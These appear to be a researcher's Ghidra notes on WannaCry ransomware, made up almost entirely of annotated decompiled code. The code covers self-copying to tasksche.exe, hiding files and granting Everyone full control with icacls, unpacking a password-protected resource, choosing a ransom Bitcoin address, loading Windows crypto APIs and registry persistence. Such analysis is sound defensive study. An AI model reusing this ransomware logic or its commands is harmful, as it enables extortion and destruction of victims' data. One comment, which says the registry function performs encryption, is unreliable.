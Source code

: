 Random notes from ghidra



**WinMain****:**


/* This file, or atleast part of it, was in the old 1831.bin file and was the entry point.
   
   In this version it is combined with the original .exe 
   
   
   There is a fork of the program path here, if /i argument is passed in cmd then a certain workflow
   begins and vice versa */

int WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,PWSTR pCmdLine,int nCmdShow)

{
  bool bVar1;
  int *argv;
  char ***argv2;
  undefined3 extraout_var;
  DWORD DVar2;
  short *psVar3;
  code *pcVar4;
  int i;
  undefined4 *j;
  undefined local_6e8 [1240];
  char filename [520];
  uint local_8;
  char *_s_/i;
  
  filename[0] = executable_path?;
  j = (undefined4 *)(filename + 1);
  for (i = 129; i != 0; i = i + -1) {
    *j = 0;
    j = j + 1;
  }
  *(undefined2 *)j = 0;
  *(undefined *)((int)j + 2) = 0;
  GetModuleFileNameA((HMODULE)0x0,filename,520);
  Rand_string_gen((char *)&randomstring);
  argv = (int *)__p___argc();
                    /* if class here checks if there is 1 argument for argc REMEMBER argc == 2 means
                       if ONE argument is supplied or not. */
  if (*argv == 2) {
                    /* clear bytes and then you can uncover c string '/i' */
    _s_/i = s_/i_0040f538;
    argv2 = (char ***)__p___argv();
                    /* strcmp compares the first argument  strcmp(arg[1]) with "/i" */
    i = strcmp((*argv2)[1],_s_/i);
    if ((i == 0) &&
       (bVar1 = create_hidden_directory((wchar_t *)0x0), CONCAT31(extraout_var,bVar1) != 0)) {
      CopyFileA(filename,s_tasksche.exe_0040f4d8,0);
      DVar2 = GetFileAttributesA(s_tasksche.exe_0040f4d8);
      if ((DVar2 != 0xffffffff) && (i = FUN_00401f5d(), i != 0)) {
        return 0;
      }
    }
  }
  _s_/i = strrchr(filename,0x5c);
  if (_s_/i != (char *)0) {
    _s_/i = strrchr(filename,0x5c);
    *_s_/i = '\0';
  }
  SetCurrentDirectoryA(filename);
  Registry_Edit(1);
  2058_LoadnSize((HMODULE)0x0,s_WNcry@2ol7_0040f52c);
  Bitcoin_addresses();
  Command4perms(s_attrib_+h_._0040f520,0,(LPDWORD)0x0);
  Command4perms(s_icacls_._/grant_Everyone:F_/T_/C_0040f4fc,0,(LPDWORD)0x0);
  i = FUN_0040170a();
  if (i != 0) {
    FUN_004012fd();
    i = FUN_00401437(local_6e8,(LPCSTR)0x0,0,0);
    if (i != 0) {
      local_8 = 0;
      psVar3 = (short *)FUN_004014a6(local_6e8,s_t.wnry_0040f4f4,&local_8);
      if (((psVar3 != (short *)0x0) &&
          (argv = (int *)FUN_004021bd(psVar3,local_8), argv != (int *)0x0)) &&
         (pcVar4 = (code *)FUN_00402924(argv,s_TaskStart_0040f4e8), pcVar4 != (code *)0x0)) {
        (*pcVar4)(0,0);
      }
    }
    FUN_0040137a();
  }
  return 0;
}

**2058.bin "Load and Size" ()****:** This section was huge in the older version, in this variant it is split up:

/* Load resource (previously 1831) *again* broken up from large function.
   
   
   param_1 is HMODULE 0X0
   
   
   Ok now it is changed to 2058 */

undefined4 __cdecl 2058_LoadnSize(HMODULE param_1,char *param_2)

{
  HRSRC hResInfo;
  HGLOBAL hResData;
  LPVOID res_LOCKED;
  DWORD r2058_Size;
  int *r2058_size#2;
  int iVar1;
  int iVar2;
  undefined4 *puVar3;
  char *pcVar4;
  int local_130;
  undefined4 local_12c [74];
  
                    /* This is obfuscated, I am guessing the end result will stil be 1831
                       
                       Ok it was changed to 2058 */
  hResInfo = FindResourceA(param_1,(LPCSTR)2058,&DAT_0040f43c);
  if (((hResInfo != (HRSRC)0x0) &&
      (hResData = LoadResource(param_1,hResInfo), hResData != (HGLOBAL)0x0)) &&
     (res_LOCKED = LockResource(hResData), res_LOCKED != (LPVOID)0x0)) {
    r2058_Size = SizeofResource(param_1,hResInfo);
                    /* passes the size to another variable to annoy readers */
    r2058_size#2 = (int *)FUN_004075ad(res_LOCKED,r2058_Size,param_2);
    if (r2058_size#2 != (int *)0) {
      local_130 = 0;
      puVar3 = local_12c;
                    /* some optimization here, this for loop was not a one liner before so this was
                       changed */
      for (iVar2 = 0x4a; iVar2 != 0; iVar2 = iVar2 + -1) {
        *puVar3 = 0;
        puVar3 = puVar3 + 1;
      }
      FUN_004075c4(r2058_size#2,-1,&local_130);
      iVar2 = local_130;
      pcVar4 = (char *)0x0;
      if (0 < local_130) {
        do {
          FUN_004075c4(r2058_size#2,(int)pcVar4,&local_130);
          iVar1 = strcmp((char *)local_12c,s_c.wnry_0040e010);
          if ((iVar1 != 0) ||
             (r2058_Size = GetFileAttributesA((LPCSTR)local_12c), r2058_Size == 0xffffffff)) {
            FUN_0040763d(r2058_size#2,pcVar4,(char *)local_12c);
          }
          pcVar4 = pcVar4 + 1;
        } while ((int)pcVar4 < iVar2);
      }
      FUN_00407656(r2058_size#2);
      return 1;
    }
  }
  return 0;
}


**Bitcoin addresses function:**

/* This was in the past in a separate bin file named 1831.bin. The file was replaced with a zip file
   named 2058.bin/zip with different assets.
   
   And the addresses were combined into the original WC.EXE.
   
   The (presumably) old bin file had the lang archives within it, just that there was an unzip
   command in the bin file itself. 
   
   Now its replacement (2058.zip) is just a zip file. */

void Bitcoin_addresses(void)

{
  bool bVar1;
  undefined3 extraout_var;
  int iVar2;
  undefined local_31c [178];
  char local_26a [602];
  char *local_10 [3];
  
  local_10[0] = s_13AM4VW2dhxYgXeQepoHkHSQuy6NgaEb_0040f488;
  local_10[1] = s_12t9YDPgwueZ9NyMgw519p7AA8isjr6S_0040f464;
  local_10[2] = s_115p7UMMngoj1pMvkpHijcRdfJNXj6Lr_0040f440;
  bVar1 = FUN_00401000(local_31c,1);
  if (CONCAT31(extraout_var,bVar1) != 0) {
    iVar2 = rand();
    strcpy(local_26a,local_10[iVar2 % 3]);
    FUN_00401000(local_31c,0);
  }
  return;

**key_ApiCalls:**

undefined4 key_ApiCalls(void)

{
  HMODULE hModule;
  undefined4 uVar1;
  
  if (DAT_0040f894 == (FARPROC)0x0) {
    hModule = LoadLibraryA(s_advapi32.dll_0040e020);
    if (hModule != (HMODULE)0x0) {
      DAT_0040f894 = GetProcAddress(hModule,s_CryptAcquireContextA_0040f110);
      import_key = GetProcAddress(hModule,s_CryptImportKey_0040f100);
      Destroy_key = GetProcAddress(hModule,s_CryptDestroyKey_0040f0f0);
      encrypt_wkey = GetProcAddress(hModule,s_CryptEncrypt_0040f0e0);
      decrypt_wkey = GetProcAddress(hModule,s_CryptDecrypt_0040f0d0);
      _Generate_key = GetProcAddress(hModule,s_CryptGenKey_0040f0c4);
      if ((((DAT_0040f894 != (FARPROC)0x0) && (import_key != (FARPROC)0x0)) &&
          (Destroy_key != (FARPROC)0x0)) &&
         (((encrypt_wkey != (FARPROC)0x0 && (decrypt_wkey != (FARPROC)0x0)) &&
          (_Generate_key != (FARPROC)0x0)))) goto LAB_00401aec;
    }
    uVar1 = 0;
  }
  else {
LAB_00401aec:
    uVar1 = 1;
  }
  return uVar1;
}


**Registry Edit:** This section does the actual encryption

undefined4 __cdecl Registry_Edit(int set_registry)

{
  size_t current_dir_len;
  LSTATUS LVar1;
  int iVar2;
  undefined4 *software_s;
  undefined4 *puVar3;
  bool bVar4;
  HKEY hKey;
  BYTE registry_value;
  undefined4 local_2df;
  undefined4 software_s_buff [5];
  undefined4 local_c4 [45];
  DWORD local_10;
  int i;
  HKEY regWanaHandle;
  
  software_s = (undefined4 *)u_Software\_0040e04c;
  puVar3 = software_s_buff;
  for (iVar2 = 5; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = *software_s;
    software_s = software_s + 1;
    puVar3 = puVar3 + 1;
  }
  registry_value = '\0';
  regWanaHandle = (HKEY)0x0;
  software_s = local_c4;
  for (iVar2 = 0x2d; iVar2 != 0; iVar2 = iVar2 + -1) {
    *software_s = 0;
    software_s = software_s + 1;
  }
  software_s = &local_2df;
  for (iVar2 = 0x81; iVar2 != 0; iVar2 = iVar2 + -1) {
    *software_s = 0;
    software_s = software_s + 1;
  }
  *(undefined2 *)software_s = 0;
  *(undefined *)((int)software_s + 2) = 0;
                    /* wsc -> Wide string concatanation */
  wcscat((wchar_t *)software_s_buff,u_WanaCrypt0r_0040e034);
                    /* reads as Sofware\Wanacrypt0r */
  i = 0;
  do {
                    /* Again 3rd parameter is the output
                        */
    if (i == 0) {
                    /* This is HKEY_LOCAL_MACHINE */
      hKey = (HKEY)0x80000002;
    }
    else {
                    /* This is HKEY_CURRENT_USER */
      hKey = (HKEY)0x80000001;
    }
    RegCreateKeyW(hKey,(LPCWSTR)software_s_buff,&regWanaHandle);
                    /* Again 3rd parameter is the output */
    if (regWanaHandle != (HKEY)0x0) {
      if (set_registry == 0) {
        local_10 = 0x207;
        LVar1 = RegQueryValueExA(regWanaHandle,&DAT_0040e030,(LPDWORD)0x0,(LPDWORD)0x0,
                                 &registry_value,&local_10);
        bVar4 = LVar1 == 0;
        if (bVar4) {
          SetCurrentDirectoryA((LPCSTR)&registry_value);
        }
      }
      else {
        GetCurrentDirectoryA(0x207,(LPSTR)&registry_value);
        current_dir_len = strlen((char *)&registry_value);
        LVar1 = RegSetValueExA(regWanaHandle,&DAT_0040e030,0,1,&registry_value,current_dir_len + 1);
                    /* a new key is made in the registry and the current directory is put in it */
        bVar4 = LVar1 == 0;
      }
      RegCloseKey(regWanaHandle);
      if (bVar4) {
        return 1;
      }
    }
    i = i + 1;
    if (1 < i) {
      return 0;
    }
  } while( true );
}








  
